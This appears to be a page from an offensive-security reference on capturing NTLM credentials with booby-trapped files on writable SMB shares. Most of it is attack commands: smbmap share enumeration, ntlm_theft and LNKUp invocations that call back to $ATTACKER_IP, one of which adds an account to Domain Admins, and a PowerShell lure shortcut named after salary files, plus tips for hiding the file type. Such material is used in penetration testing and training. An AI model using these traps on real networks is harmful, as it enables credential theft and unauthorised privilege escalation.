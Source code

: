 > [!TIP]
> Shares an account has WRITE privileges over can be mapped with [smbmap](https://github.com/ShawnDEvans/smbmap) (Python).
> 
> ```bash
> smbmap -d "domain" -u "user" -p "password" --host-file targets.txt
> ```

> [!TIP]
> Shortcut file names can be preprended with a `@` symbol to put them on top of the share, to make sure the file explorer has to parse it.

> [!TIP]
> The [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) (Python) tool can be used to generate multiple file types at once (lnk, scf, url, docx, xslx, htm, xml, pdf, ...).
> 
> ```bash
> ntlm_theft.py --generate all --server $ATTACKER_IP --filename "@FILENAME"
> ```

::: tabs

=== .lnk

An LNK shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

> Shortcuts with the .lnk extension have a lot of beneficial properties when it comes to stealth; [they are an exception](https://en.wikipedia.org/wiki/Shortcut_(computing)#Microsoft_Windows) from the Windows setting to show or hide file extensions. Even when “hide known file extensions” is disabled, explorer.exe will only show the name, allowing us to let it end in “.jpeg”. A major downside is that they only allow 1024 characters for the whole command they execute. ([source](https://hatching.io/blog/lnk-hta-polyglot/))

[LNKUp](https://github.com/Plazmaz/LNKUp) (Python) is a great tool to generate malicious LNK shortcuts. They can be set with a remote icon file to generate outgoing SMB traffic and authentications but can also be set to execute commands when opened (i.e. double-clicked).

```bash
# Simple SMB trap with remote icon file
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk'

# SMB trap + command execution
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk' --execute "net group 'Domain Admins' Pentester01 /domain /add"
```

```bash
# Simple SMB trap with remote icon file (Powershell)
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Windows\temp\@Salaries-2023.lnk")
$lnk.TargetPath = "\\\@icon.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Salaries-2023."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
